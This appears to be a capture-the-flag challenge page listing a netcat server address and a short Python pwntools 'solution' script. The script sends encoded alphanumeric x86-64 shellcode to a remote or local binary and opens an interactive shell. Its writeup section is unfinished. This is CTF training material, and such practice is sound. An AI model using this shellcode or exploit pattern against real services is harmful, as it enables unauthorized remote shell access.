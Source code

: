 #### Goals
 * Try to find the flag

#### Server Address
 * nc pwn.sniperoj.com 20004

#### Solution
```python

#!/usr/bin/env python

from pwn import *

context(os='linux', arch='amd64', log_level='debug')

if len(sys.argv) == 3:
    host = sys.argv[1]
    port = int(sys.argv[2])
    Io = remote(host, port)
else:
    Io = process("./pwn")

shellcode = "TX-BTUU-BTUU-BTUUP\%IIII%0000-&%%%-%%%%-%%%%P%IIII%0000-+%%%-+%%%-*%%%P%IIII%0000-1(^e-1'^e-0'`gP%IIII%0000-3F52-3E42-2E42P%IIII%0000-FF/3-FE/2-EE.2P%IIII%0000-oQ:3-pQ:2-qQ:2P%IIII%0000-EgW^-EgW_-EhY`PPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPPP"
payload = shellcode
Io.sendline(payload)
Io.interactive()
```

#### Writeups
 * TODO

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（wangyihanger@gmail.com）
